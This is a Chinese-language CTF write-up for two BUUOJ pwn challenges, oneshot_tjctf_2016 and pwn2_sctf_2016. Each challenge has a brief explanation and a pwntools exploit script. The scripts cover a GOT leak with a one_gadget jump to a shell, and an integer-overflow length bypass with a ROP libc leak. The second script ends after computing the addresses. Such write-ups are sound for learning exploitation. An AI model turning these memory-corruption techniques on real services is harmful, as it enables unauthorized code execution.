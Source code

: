 ## oneshot_tjctf_2016
程序第一次输入会泄露地址，第二次会跳转到我们输入的地址,通过泄露地址计算libc，然后one_gadget
```python
from pwn import *
context.log_level='debug'

r=remote('node3.buuoj.cn',25576)
#r=process('./oneshot_tjctf_2016')
elf=ELF('./oneshot_tjctf_2016')
libc=ELF('./libc-2.23.so')

r.recvuntil("Read location?")
r.sendline(str(elf.got['puts']))
r.recvuntil("Value: ")
puts_addr=int(r.recvn(18),16)
print hex(puts_addr)

r.recvuntil("Jump location?")
libc_base=puts_addr-libc.sym['puts']

#one_gadget libc-2.23.so
#0x45216,0x4526a,0xf02a4,0xf1147
one_gadget=libc_base+0x45216
r.sendline(str(one_gadget))

r.interactive()
```

## pwn2_sctf_2016
程序有限制长度，长度小于32字节，可以看到get_n的第二个参数会转成unsigned int，而后经过atoi，被强转成signed int类型，导致存在整数溢出，当我们输入 -1 的时候，会被atoi函数强转成4294967295，从而绕过限制
```python
#!coding: utf-8
from pwn import *
from LibcSearcher import *
context.log_level='debug'

#r=remote('node3.buuoj.cn',26904)
r=process('./pwn2_sctf_2016')
elf=ELF('./pwn2_sctf_2016')
printf_plt=elf.plt['printf']
printf_got=elf.got['printf']
main_addr=elf.sym['main']
format_addr=0x80486f8

r.recvuntil("How many bytes do you want me to read? ")
r.sendline('-1')
r.recvuntil('data!\n')
payload='a'*0x2c+'bbbb'
payload+=p32(printf_plt)+p32(main_addr)+p32(format_addr)+p32(printf_got)
r.sendline(payload)

r.recvuntil('said: ')#程序最后的语句
r.recvuntil('said: ')#POR执行完之后的语句，最后是函数地址

printf_addr=u32(r.recv(4))
print('[+]printf_addr: ',hex(printf_addr))

libc=LibcSearcher('printf',printf_addr)
libc_base= printf_addr- libc.dump('printf')
system_addr=libc.dump('system')+libc_base
bin_addr=libc.dump('str_bin_sh')+libc_base
```